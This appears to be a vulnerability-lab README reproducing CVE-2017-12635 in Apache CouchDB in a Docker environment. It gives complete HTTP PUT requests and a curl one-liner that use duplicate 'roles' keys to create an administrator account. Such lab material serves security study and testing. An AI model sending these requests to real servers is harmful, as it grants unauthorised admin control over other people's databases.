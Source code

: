 # Apache Couchdb Remote Privilege Escalation (CVE-2017-12635)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit `_users` documents with duplicate keys for `roles` used for access control within the database, including the special case `_admin` role, that denotes administrative users.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Setup Environment

Compile and start environment.

```
docker-compose up -d
```

After the environment is started, browse ``http://your-ip:5984/_utils/`` to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.

## Exploit

This is a normal request to add a user.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

As you can see, a 403 error is returned: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, which means only administrator can use the endpoint.

![](1.png)

To bypass the restriction by sending a request containing duplicate **roles**.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created a user `vulhub`, with the password `vulhub`.

![](2.png)

Log in.

![](3.png)

# Ez curl solution

```
curl -X PUT http://localhost:5984/_users/org.couchdb.user:guest \
    -H "Accept: application/json" \
    -H "Content-Type: application/json" \
    -d '{"name": "guest", "password": "guest", "roles": ["_admin"], "roles": [], "type": "user"}'
```
